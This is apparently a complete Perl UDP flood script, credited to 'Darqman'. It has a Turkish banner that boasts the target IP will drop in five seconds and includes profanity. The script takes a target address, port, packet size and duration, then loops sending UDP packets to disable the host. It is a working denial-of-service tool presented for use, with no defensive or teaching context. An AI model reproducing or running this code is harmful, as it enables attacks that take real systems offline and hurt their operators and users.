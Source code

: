#!/usr/bin/perl



use Term::ANSIColor qw(:constants);

    $Term::ANSIColor::AUTORESET = 2;



##

# VapeDaddy 

##



use Socket;

use strict;



my ($ip,$port,$size,$time) = @ARGV;



my ($iaddr,$endtime,$psize,$pport);



$iaddr = inet_aton("$ip") or die "Cannot resolve hostname $ip\n";

$endtime = time() + ($time ? $time : 100);

socket(flood, PF_INET, SOCK_DGRAM, 17);



print BOLD BLUE<<EOTEXT;

██▓▓▒▒░░╬> ( 5 Saniye Sonra IP GG ;) Loading... )<╬ ░░▒▒▓▓██

                         ///////////////////

/////////////////////////////////////////////////////////////////////

        ////////////////////////////////////////////////////////////    

      *********************  CODED BY DARQMAN  **********************

    ///////////////////////////////////////////////////////////////////    

/////////////////////////////////////////////////////////////////////

                         ///////////////////







Scripti Yapan Kisi By Darqman Yani Nami Deger Safkan

EOTEXT



print "DDOS ATILMISTIR 5 SANIYE SONRA DUSUCEKTIR $ip " . ($port ? $port : "AMINA KOYUYORSUNUZ.") . " With " . 

  ($size ? "$size-Slammed" : "65500") . "Bots" . 

  ($time ? " for $time seconds" : "") . "\n";

print "Saldiriyi durdurmak icin Ctrl-C\n" unless $time;

 

for (;time() <= $endtime;) {

  $psize = $size ? $size : int(rand(1024-70)+64) ;

  $pport = $port ? $port : int(rand(75500))+1;



  send(flood, pack("a$psize","flood"), 0, pack_sockaddr_in($pport, $iaddr));}
